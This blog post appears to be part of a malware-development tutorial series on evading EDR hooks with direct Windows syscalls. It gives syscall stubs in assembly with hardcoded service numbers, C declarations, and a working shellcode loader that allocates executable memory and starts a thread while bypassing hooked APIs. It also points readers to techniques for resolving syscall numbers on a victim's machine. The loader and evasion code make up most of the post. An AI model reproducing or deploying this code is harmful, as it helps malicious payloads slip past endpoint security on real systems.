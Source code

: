 ```yaml
---
title: "EDR Evasion 101 - Pt 3: Direct Syscall"
description: Demonstration of the use of direct syscalls to evade hooking carried out by EDR, in addition to its advantages and possible forms of improvement. 
author: Oblivion
date: 2024-04-21 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: false
math: true
mermaid: true
---
```


This is a very easy way to evade hooking, because we simply perform the direct syscall of our code without needing to use the hooked API. A brief representation of how this technique works:

![img](../commons/direct_syscall/img1.png)

## How make this

Well, first we should know about the stub syscall, it looks like the following:

```
    mov r10, rcx
    mov eax, <SSN>
    syscall
    ret
```

The Service Syscall Number, known as SSN, is the identification number assigned to each syscall function. Now that we understand about the syscall stub and SSN, we can move on. To perform direct syscalls, it is necessary to have the stub in an .asm assembly code. In our C code, we use EXTERN_C to declare the function, informing the compiler that this function exists somewhere in the code. We then compile our C and .asm assembly codes to object files and finally link them. I will demonstrate the process, but first, let's learn how to find out the SSN of functions on our machine. The SSN varies depending on the machine version, which can be an obstacle to performing direct syscalls. I'll show you how to find the SSN of a role:

Opening x64dbg, go to C:\Windows\System32\ntdll.dll and attach it, then go to the "Symbols" tab and search for the function to be used.

![img](../commons/direct_syscall/img2.png)

which will take us to the syscall stub screen where we can see the NtAllocateVirtualMemory SSN equivalent to 18.

![img](../commons/direct_syscall/img3.png)

I will carry out the same process to find out the SSN of NtCreateThreadEx, I will create an .asm file to create the stub of the two functions, result below.

```
.code
    SysFuncAlloc PROC
        mov r10, rcx
        mov eax, 18h
        syscall
        ret
    SysFuncAlloc ENDP

    SysFuncThread PROC
        mov r10, rcx
        mov eax, 0C7h
        syscall
        ret
    SysFuncThread ENDP
end
```

Now I will create a C file as .h containing the function definition, note that the name has to be the same as defined in the .asm file.

```c
EXTERN_C NTSTATUS SysFuncAlloc(
  IN HANDLE           ProcessHandle,    
  IN OUT PVOID        *BaseAddress,    
  IN ULONG_PTR        ZeroBits,         
  IN OUT PSIZE_T      RegionSize,      
  IN ULONG            AllocationType,   
  IN ULONG            Protect           
);

EXTERN_C NTSTATUS SysFuncThread(
    OUT PHANDLE                 ThreadHandle,         
    IN 	ACCESS_MASK             DesiredAccess,        
    IN 	POBJECT_ATTRIBUTES      ObjectAttributes,     
    IN 	HANDLE                  ProcessHandle,        
    IN 	PVOID                   StartRoutine,        
    IN 	PVOID                   Argument,            
    IN 	ULONG                   CreateFlags,         
    IN 	SIZE_T                  ZeroBits,            
    IN 	SIZE_T                  StackSize,           
    IN 	SIZE_T                  MaximumStackSize,    
    IN 	PPS_ATTRIBUTE_LIST      AttributeList       
);
```

Now creating the main file where we will perform a simple injection using direct syscalls.

```c
LPVOID lpAllocationStart = NULL;
SIZE_T szshell = sizeof( shellcode );
HANDLE hProcess = GetCurrentProcess();
HANDLE hThread;

NTSTATUS status = SysFuncAlloc(hProcess, &lpAllocationStart, 0, &szshell, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (!NT_SUCCESS(status)){
	printf("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[*] Allocated memory at 0x%p\n", lpAllocationStart);

memcpy(lpAllocationStart, shellcode, szshell);

NTSTATUS status2 = SysFuncThread(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, lpAllocationStart, NULL, NULL, NULL, NULL, NULL, NULL);
if (!NT_SUCCESS(status2)){
	printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X \n", status); 
	return 1;
}

printf("[+] Thread Created\n");

WaitForSingleObject(hThread, INFINITE);
CloseHandle(hThread);

return 0;
```

# References

You might ask, "How would I find out the SSN of the victim's machine?" For that, I recommend reading about the concept of [HellsGate](https://redops.at/en/blog/exploring-hells-gate). It dynamically resolves the SSN and allows you to make direct calls efficiently.

# Disadvantages of Direct Syscall

Direct syscalls are easily detected because, in the Windows operating system, it is uncommon for code outside of ntdll.dll to perform syscalls. Therefore, simply search for the opcode of the "syscall" instruction, among other available detection methods such kernel routines and etc.

To avoid this, you can use Indirect Syscall, which is to execute the syscall directly from ntdll, for more information, you can use [HellsHall](https://github.com/Maldev-Academy/HellHall).


